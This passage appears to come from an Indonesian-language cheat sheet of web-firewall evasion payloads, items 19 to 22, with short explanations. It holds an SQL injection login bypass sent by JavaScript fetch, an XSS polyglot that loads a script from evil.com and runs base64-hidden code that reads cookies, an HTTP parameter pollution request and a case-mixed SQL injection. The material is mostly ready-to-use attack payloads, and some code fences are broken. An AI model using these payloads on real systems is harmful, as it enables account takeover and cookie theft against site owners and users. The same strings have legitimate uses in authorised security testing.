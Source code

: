 
### **🛡️ 19. JavaScript-Based SQL Injection with Dynamic Payload**  
```javascript
fetch('https://target.com/api/login', {  
  method: 'POST',  
  body: JSON.stringify({  
    username: "' OR 1=1--",  
    password: "any"  
  }),  
  headers: { "Content-Type": "application/json" }  
});
```
**📌 Teknik:**  
✅ Menggunakan JavaScript untuk mengirim SQLi secara dinamis.  
✅ Bisa melewati WAF yang hanya memfilter URL, bukan request API.  

---

### **🛡️ 20. Advanced Polyglot Payload for Maximum WAF Evasion**  
```html
<SCRIPT SRC=//evil.com/x.js></SCRIPT><SCRIPT>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKTs='))</SCRIPT>
```
**📌 Teknik:**  
✅ **Polyglot** = kombinasi beberapa teknik bypass dalam satu payload.  
✅ `SRC=//evil.com/x.js` digunakan untuk mengunduh skrip eksternal.  
✅ `eval(atob(...))` untuk menjalankan XSS tanpa terlihat seperti script berbahaya.  

---

```md
---

### **🛡️ 21. HTTP Parameter Pollution (HPP) Attack**  
```http
GET /index.php?user=admin&user=attacker HTTP/1.1
```
**📌 Teknik:**  
✅ **HPP** = Memasukkan parameter ganda untuk mengecoh server.  
✅ `user=admin&user=attacker` menyebabkan perilaku tak terduga.  
✅ **Bypass WAF** dengan eksploitasi ketidakkonsistenan parsing parameter.  

---

### **🛡️ 22. SQL Injection via Case Manipulation**  
```sql
SeLeCt * FrOm users WHEre username='admin' AnD 1=1-- 
```
**📌 Teknik:**  
✅ **Case Manipulation SQLi** = Memanfaatkan SQL parser dengan huruf campuran.  
✅ `SeLeCt * FrOm` menghindari deteksi pola sederhana oleh WAF.  
✅ **Bypass WAF** dengan variasi huruf besar-kecil yang tidak dikenali filter.  

---